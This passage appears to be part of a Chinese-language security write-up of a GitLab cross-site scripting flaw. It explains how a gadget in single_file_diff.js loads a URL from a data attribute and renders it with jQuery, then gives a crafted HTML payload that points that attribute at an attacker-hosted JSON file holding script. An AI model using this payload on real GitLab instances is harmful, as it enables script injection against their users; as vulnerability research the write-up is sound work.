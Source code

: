     _app/assets/javascripts/single_file_diff.js_

    ![single_file_diff](/assets/gitlab/1/single_file_diff.png)

    可以看到，diffForPath 是 data 属性，该 gadget 读取该属性为链接，并且下载内容，直接通过 jquery 进行渲染。

12. 因此构造 payload 为：

    ```
    <pre lang='" data-diff-for-path="http://10.206.44.19:8830/gnuwget/Wget2/-/raw/master/xss.json"  '><code lang='wavedrom'></code></pre>
    ```

    其中 *http://10.206.44.19:8830/gnuwget/Wget2/-/raw/master/xss.json* 是我们自己上传的 json 文件，包含了 xss payload。

    ![Krokixss](/assets/gitlab/1/Krokixss.png)
